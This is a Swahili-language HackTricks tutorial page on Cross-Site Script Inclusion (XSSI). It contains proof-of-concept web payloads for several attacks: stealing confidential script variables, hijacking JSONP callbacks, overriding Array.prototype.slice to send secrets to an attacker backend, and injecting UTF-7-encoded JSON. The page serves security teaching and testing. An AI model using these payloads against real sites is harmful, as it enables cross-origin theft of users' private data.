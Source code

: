 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** ni udhaifu unaotokana na asili ya lebo ya `script` katika HTML. Tofauti na rasilimali nyingi, ambazo zinategemea **Same-Origin Policy (SOP)**, scripts zinaweza kujumuishwa kutoka maeneo tofauti. Tabia hii inakusudia kuwezesha matumizi ya maktaba na rasilimali nyingine zinazohifadhiwa kwenye seva tofauti lakini pia inaletee hatari ya usalama.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Scripts hazihusishwa na **Same-Origin Policy**, zikiruhusiwa kujumuishwa kati ya maeneo.
- **Data Exposure**: Mshambuliaji anaweza kutumia tabia hii kusoma data iliyopakiwa kupitia lebo ya `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** ni muhimu hasa kwa JavaScript ya dinamik au **JSON with Padding (JSONP)**. Teknolojia hizi mara nyingi hutumia taarifa za "ambient-authority" (kama vidakuzi) kwa ajili ya uthibitishaji. Wakati ombi la script linapotolewa kwa mwenyeji tofauti, akreditif hizi (mfano, vidakuzi) hujumuishwa moja kwa moja katika ombi.
- **Authentication Token Leakage**: Ikiwa mshambuliaji anaweza kumdanganya kivinjari cha mtumiaji kuomba script kutoka seva wanayodhibiti, wanaweza kuwa na uwezo wa kupata taarifa nyeti zilizomo katika maombi haya.

### Types

1. **Static JavaScript** - Hii inawakilisha aina ya kawaida ya XSSI.
2. **Static JavaScript with Authentication** - Aina hii ni tofauti kwa sababu inahitaji uthibitishaji ili kufikia.
3. **Dynamic JavaScript** - Inahusisha JavaScript inayozalisha maudhui kwa njia ya dinamik.
4. **Non-JavaScript** - Inarejelea udhaifu ambao hauhusishi JavaScript moja kwa moja.

**Taarifa ifuatayo ni muhtasari wa [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Angalia kwa maelezo zaidi.


### Regular XSSI
Katika mbinu hii, taarifa za faragha zimejumuishwa ndani ya faili ya JavaScript inayopatikana kimataifa. Wavamizi wanaweza kubaini faili hizi kwa kutumia mbinu kama kusoma faili, kutafuta maneno, au matumizi ya kawaida ya kawaida. Mara baada ya kupatikana, script inayoshikilia taarifa za faragha inaweza kujumuishwa katika maudhui ya uhalifu, ikiruhusu ufikiaji usioidhinishwa wa data nyeti. Mbinu moja ya mfano ya unyakuzi inaonyeshwa hapa chini:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Aina hizi za mashambulizi ya XSSI zinahusisha taarifa za siri kuongezwa kwa njia ya kidinamikia kwenye skripti kama jibu la ombi la mtumiaji. Ugunduzi unaweza kufanywa kwa kutuma maombi yenye na bila kuki na kulinganisha majibu. Ikiwa taarifa zinatofautiana, inaweza kuashiria uwepo wa taarifa za siri. Mchakato huu unaweza kuandaliwa kwa kutumia zana kama [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) nyongeza ya Burp.

Ikiwa data za siri zimehifadhiwa katika variable ya kimataifa, zinaweza kutumika kwa kutumia mbinu zinazofanana na zile zinazotumika katika XSSI ya Kawaida. Hata hivyo, ikiwa data za siri zimejumuishwa katika jibu la JSONP, washambuliaji wanaweza kuiba kazi ya callback ili kupata taarifa hizo. Hii inaweza kufanywa kwa kubadilisha vitu vya kimataifa au kuanzisha kazi itakayotekelezwa na jibu la JSONP, kama inavyoonyeshwa hapa chini:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Kwa mabadiliko ya *prototype tampering* kwa mabadiliko ya muktadha wa ndani, mara nyingine inaweza kutumika. Mbinu hii inatumia muundo wa JavaScript, ambapo tafsiri ya msimbo inahusisha kupita kwenye mnyororo wa prototype ili kupata mali inayoitwa. Kwa kubadilisha kazi fulani, kama vile `Array`'s `slice`, washambuliaji wanaweza kufikia na kuvuja mabadiliko yasiyo ya kimataifa:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Utafiti wa Takeshi Terada unaleta aina nyingine ya XSSI, ambapo faili za Non-Script, kama CSV, zinavuja cross-origin kwa kuingizwa kama vyanzo katika `script` tag. Matukio ya kihistoria ya XSSI, kama shambulio la Jeremiah Grossman la mwaka 2006 kusoma kitabu kamili cha anwani za Google na uvujaji wa data wa JSON wa Joe Walker wa mwaka 2007, yanaonyesha ukali wa vitisho hivi. Zaidi ya hayo, Gareth Heyes anaelezea toleo la shambulio linalohusisha JSON iliy encoded kwa UTF-7 ili kutoroka muundo wa JSON na kutekeleza scripts, ambayo ni bora katika vivinjari vingine:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
